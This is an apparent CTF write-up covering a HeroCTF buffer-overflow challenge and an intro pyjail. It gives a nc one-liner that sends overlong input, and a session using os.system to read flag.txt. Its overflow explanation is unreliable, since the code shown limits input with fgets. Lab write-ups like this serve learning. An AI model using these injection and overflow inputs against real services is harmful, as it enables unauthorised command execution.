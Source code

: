   printf("Déborde moi mon cochon : ");
 
  fgets(buf,40,stdin);
 
  if (check!= 0xdeadbeef){
    printf ("\nGG wola tu m'as eu\n");
    setreuid(geteuid(), geteuid());
    system("cat flag.txt");
    printf("Voilà ton flag petit fou.\n");
  }
 
  if (check == 0xdeadbeef)
   {
     printf("Essaie encore...\n");
   }
   return 0;
}
` 


Here we seeing that the buf is a table of 40 char and can't have over 40 char so we enter over 40 char in the buf and you observe the displaying of flag


Astuce Python :
`python -C "print('A'*50)" |nc heroctf.fr 3000` <-here 3000 is the ports at which move the server

If you run the program to local you don't see the flag because the flag is at the server
 


2-Introduction Pyjails
On the server the administrator install the service who execute python scripts

nc heroctf.fr 3002


` 
nc heroctf.fr 3002

Enter your code below:
import os <- is call for used the CLI linux
os.system('ls')
EOF
entry.sh
flag.txt
programs
shell.py
=============== END =================
Enter your code below:
import os
os.system('cat flag.txt')
EOF
HeroCTF{os_sh0uld_b3_dis4bl3d_by_4dmin}

` 

...And it's possible that the command line at your os create a error
For exemple:
In the Others Pyjails ctf the command (ls ,cat ,cd are block, and the text contains 'os' are delete)

